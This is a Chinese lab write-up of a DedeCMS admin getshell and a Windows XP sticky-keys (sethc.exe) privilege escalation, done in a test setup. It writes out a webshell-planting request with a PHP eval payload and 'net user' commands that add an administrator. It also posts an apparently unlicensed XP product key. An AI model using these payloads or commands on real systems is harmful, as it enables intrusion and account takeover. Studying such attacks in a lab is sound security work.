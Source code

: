 ```yaml
---
这个再稍微新一点的Windows上已经比较难实现了，因为新版的Windows已经把
---
```


# 粘滞键弹shell提权

## 0x00 测试环境

* win xp pro sp3,
* wamp2.2
* dedecms V57\_UTF8\_SP2

## 0x01 后台getshell

[参照的是这个大佬的博客](https://www.cesafe.com/2621.html/2/)

{% embed url="https://www.cesafe.com/2621.html/2/" %}

利用的是dede可以注册全局变量的特性

先访问`dede/tpl.php?action=upload`获取token，然后访问dede/tpl.php?filename=&lt;木马文件名&gt;.lib.php&action=savetagfile&content=&lt;?php eval\($\_POST\['cmd'\]\); ?&gt;&token=&lt;刚才获取的你的token值&gt;

然后文件就写进去了

![&#x83DC;&#x5200;&#x8FDE;&#x63A5;](.gitbook/assets/image%20%2810%29.png)

## 0x02 提权

这个用户是我临时建的一个普通用户，没有添加用户的权限

 net user admin /active:yes

![](.gitbook/assets/image%20%282%29.png)

 粘滞键：c:\windows\system32\sethc.exe，把它用cmd替换

`tasklist /svc`查看所有安装的服务，这里是没有权限的。。。

扫出21 ftp，看西普的视频里演示的是有一种叫Zillaserver的ftp采用只能本地连接，然后这个ftp是在安装路径有储存用户名密码的配置文件的，然后lcx端口转发，外面就可以连接了，然后就可以操作数据库了

有一个问题就是远程的时候要先填好用户名 密码直接跳过就好，就进入远程界面了



![](.gitbook/assets/image%20%2814%29.png)

这个时候就有创建用户的权限了

接下来创建用户

 net user admin lovechina /add

 net localgroup Administrators admin /add  

就这样吧



## 总结：

感觉这个实验做的还是挺水的，因为环境问题重新搭了好几个服务器，一开始用哪个server2008 iis，但是后来发现server2008上的sethc.exe文件即使有管理员权限也修改不了，后来又转了xp专业版，才把问题全部解决了

而且这个漏洞感觉最好是拿到ftp对system32文件夹操作的权限，不然的话基本其他权限是没本法操作这个文件夹的

xp查看当前用户 `echo %username%`,如果你是system权限的话就会显示`%username%` 其余权限会直接显示用户名

附：itellyou上的xp pro激活码http://blog.51cto.com/myocode/649076，我用的是这个一次成功 QC986-27D34-6M3TY-JJXP9-TBGMD、

附xp基础命令合集：

{% embed url="https://itpro723.wordpress.com/2009/10/14/xp%E4%B8%8B%E5%8C%85%E6%8B%AC%E5%90%84%E9%A0%85%E6%9C%80%E5%AE%8C%E6%95%B4%E6%9C%80%E9%BD%8A%E5%85%A8%E7%9A%84dos%E5%91%BD%E4%BB%A4/" %}

